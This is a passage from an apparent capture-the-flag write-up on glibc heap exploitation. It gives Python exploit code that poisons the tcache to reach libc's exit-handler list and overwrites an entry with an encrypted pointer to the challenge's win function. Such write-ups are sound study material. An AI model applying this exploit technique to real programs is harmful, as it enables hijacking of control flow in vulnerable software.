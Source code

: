 <figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

with the key leaked, next we're going to `tcache-poisoning` to allocate a chunk to the first function array list which is `initial` to gain write primitive&#x20;

we'll also do the poisoning with a different chunk size since it's already corrupted by the previous poisoning, just to start fresh and avoid potential errors.

```python
# preparing chunk for tcache poisoning
alloc(8, 0x20)
alloc(9, 0x20)
alloc(10, 0x20)
free(9)
free(8)

# poisoning tcache
target = mangle(heap, libc.sym['initial'])
edit(8, p64(target))

# arbitrary chunk allocation
alloc(11, 0x20)
alloc(12, 0x20) # target
```

what do we overwrite the function with? well, we do have a win function.&#x20;

{% hint style="info" %}
don't forget to encrypt the function pointer before overwriting it.
{% endhint %}

```python
# overwriting exit funcs
fn = encrypt(win, ptr_guard)
payload = flat(
    0x0,    # *next
    0x1,    # count
    0x4,    # type/flavour (cxa)
    fn,     # *func ptr
)
edit(12, payload)

# trigger exit (win at cleanup)
sleep(0.2)
io.sendline(b'5')
```
